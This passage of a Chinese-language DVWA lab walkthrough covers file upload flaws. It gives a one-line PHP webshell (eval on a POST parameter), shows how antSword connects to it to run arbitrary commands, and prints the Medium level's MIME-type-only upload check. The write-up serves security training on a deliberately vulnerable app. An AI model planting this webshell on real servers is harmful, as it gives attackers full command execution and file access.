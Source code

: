 文件上传漏洞的利用是有限制条件的,首先当然是要能够成功上传木马文件,其次上传文件必须能够被执行,最后就是上传文件的路径必须可知.不幸的是,这里三个条件全都满足.

上传文件 shell.php(一句话木马)
```php
<?php @eval($_POST['ant']); ?>
```

上传成功,并且返回了上传路径

![](../../../../../assets/img/安全/实验/Web/靶场/dvwa/dvwa24.png)

注:这里推荐用开源的 [antSword](https://github.com/AntSwordProject/antSword) 连接webshell,安装步骤这里略

`http://<IP地址!!!>/dvwa/hackable/uploads/shell.php`

![](../../../../../assets/img/安全/实验/Web/靶场/dvwa/dvwa25.png)

然后 antSword 就会通过向服务器发送包含 ant 参数的 post 请求,在服务器上执行任意命令,获取 webshell 权限.可以下载、修改服务器的所有文件.

![](../../../../../assets/img/安全/实验/Web/靶场/dvwa/dvwa26.png)

### Medium

**服务器端核心代码**
```php
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
	// Where are we going to be writing to?
	$target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
	$target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

	// File information
	$uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
	$uploaded_type = $_FILES[ 'uploaded' ][ 'type' ];
	$uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];

	// Is it an image?
	if( ( $uploaded_type == "image/jpeg" || $uploaded_type == "image/png" ) &&
		( $uploaded_size < 100000 ) ) {

		// Can we move the file to the upload folder?
		if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
			// No
			$html .= '<pre>Your image was not uploaded.</pre>';
		}
		else {
			// Yes!
			$html .= "<pre>{$target_path} succesfully uploaded!</pre>";
		}
	}
	else {
		// Invalid file
		$html .= '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
	}
}

?>
```

